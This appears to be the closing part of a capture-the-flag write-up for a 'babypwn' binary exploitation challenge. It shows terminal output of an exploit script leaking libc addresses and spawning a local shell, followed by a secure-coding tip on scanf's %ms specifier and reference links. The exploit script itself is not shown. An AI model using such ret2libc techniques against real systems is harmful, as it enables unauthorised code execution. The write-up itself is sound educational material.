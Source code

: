 
our exploit is ready to hit 

```python

vagrant@vagrant:~/pwn/pwn_university2018/babypwn$ python writeup.py
[+] Starting local process '/home/vagrant/pwn/pwn_university2018/babypwn/babypwn': pid 3135
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[3135]
[*] Paused (press any to continue)
[*] [+] libc.address : 0x7f81e7206690
[*] [+] system : 0x7f81e71dc390
[*] [+] /bin/sh : 0x7f81e7323d57
[*] Switching to interactive mode

Welcome student! Can you run /bin/sh
$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

```

**Secure coding**

if you are lazy programmer and you want to use string in scanf that fine. It can use scanf with pointers and free it once you've done.



"""
Many answers here discuss the potential overflow issues of using scanf("%s", buf), but the latest POSIX specification more-or-less resolves this issue by providing an m assignment-allocation character that can be used in format specifiers for c, s, and [ formats. This will allow scanf to allocate as much memory as necessary with malloc (so it must be freed later with free).

"""
```python

char *buf;
scanf("%ms", &buf); // with 'm', scanf expects a pointer to pointer to char.

// use buf

free(buf);

```



**References**
```
https://samsclass.info/127/lec/ch14.pdf
https://www.theurbanpenguin.com/aslr-address-space-layout-randomization/
https://reverseengineering.stackexchange.com/questions/1992/what-is-plt-got
https://www.packtpub.com/mapt/book/networking_and_servers/9781782167105/2/ch02lvl1sec15/elf-symbols
```






